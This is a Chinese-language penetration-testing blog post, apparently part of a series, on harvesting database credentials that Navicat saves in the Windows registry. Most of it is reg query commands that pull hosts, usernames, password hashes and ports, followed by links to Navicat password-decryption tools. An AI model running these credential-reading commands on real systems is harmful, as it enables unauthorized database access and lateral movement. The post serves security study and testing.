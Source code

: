 # 内网渗透-Windows凭据收集之数据库凭据(8)

  
  
&lt;!--more--&gt;  
## 目录  
### Navicat存储各类数据库的路径  
```  
MySQL HKEY_CURRENT_USER\Software\PremiumSoft\Navicat\Servers\  
MariaDB HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers\  
MongoDB HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers\  
Microsoft SQL HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers\  
Oracle HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers\  
PostgreSQL HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers\  
SQLite HKEY_CURRENT_USER\Software\PremiumSoft\NavicatSQLite\Servers\  
```  
### 查询Mysql信息\[默认3306端口\]  
```  
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v host 数据库连接ip  
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v UserName 数据库用户名  
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v pwd 密码hash  
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v Port 数据库连接端口  
```  
### 查询Mssql信息\[默认1433端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers /s /v Port  
```  
### 查询MariaDb信息\[默认3306端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers /s /v Port  
```  
### 查询Oracle信息\[默认1521端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers /s /v Port  
```  
### 查询PostgreSQL信息\[默认5432端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers /s /v Port  
```  
### 查询MongoDB信息\[默认27017端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers /s /v Port  
```  
  
  
## 工具  
https://github.com/pxss/navicatpwd  
https://github.com/HyperSine/how-does-navicat-encrypt-password/tree/master/python3  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E5%87%AD%E6%8D%AE%E6%94%B6%E9%9B%86%E4%B9%8B%E6%95%B0%E6%8D%AE%E5%BA%93%E5%87%AD%E6%8D%AE8/  

